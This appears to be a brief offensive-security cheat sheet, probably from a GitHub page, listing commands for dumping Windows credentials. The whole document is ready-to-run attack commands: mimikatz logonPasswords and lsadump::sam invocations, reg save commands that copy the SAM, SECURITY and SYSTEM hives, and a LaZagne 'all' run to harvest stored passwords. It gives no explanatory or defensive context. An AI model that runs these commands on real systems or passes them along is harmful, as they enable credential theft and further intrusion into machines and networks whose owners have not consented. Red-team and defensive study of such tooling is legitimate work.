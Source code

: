 
# Dumping logon passwords with mimikatz
```bash
./mimikatz64.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"
```
-----------------------
# Dumping LSA with mimikatz
```bash
reg save hklm\sam sam.hiv
reg save hklm\security security.hiv
reg save hklm\system system.hiv
./mimikatz64.exe "privilege::debug" "token::elevate" "lsadump::sam sam.hiv security.hiv system.hiv" "exit"

./mimikatz64.exe "lsadump::sam /system:C:\TEMP\SYSTEM /sam:C:\TEMP\SAM" "exit"
./mimikatz64.exe "lsadump::sam sam.hiv security.hiv system.hiv" "exit"
```

-----------------------

# With LaZagne
https://github.com/AlessandroZ/LaZagne
```bash
LaZagne.exe all
```
